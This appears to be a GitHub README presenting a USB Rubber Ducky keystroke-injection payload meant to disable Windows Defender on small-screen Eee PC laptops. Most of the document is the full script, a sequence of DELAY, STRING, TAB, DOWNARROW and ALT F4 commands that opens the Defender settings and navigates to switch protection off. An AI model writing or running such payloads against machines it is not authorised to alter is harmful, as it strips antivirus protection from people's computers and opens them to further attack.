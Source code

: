 # Rubber-Ducky-Script-Disable-Windows-Defender-on-Eee-Pc

A simple Script for Rubber Ducky to disable windows defender on small screen laptops


Payload:


DELAY 1000
<br>
CONTROL ESCAPE
DELAY 1000
STRING windows defender settings
DELAY 1000
ENTER
REM here start the windows defender menù
DELAY 1000
TAB
DELAY 1000
DOWNARROW
DELAY 1000
TAB
DELAY 1000
DOWNARROW
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
DOWNARROW
REM close the menu
DELAY 1000
ALT F4


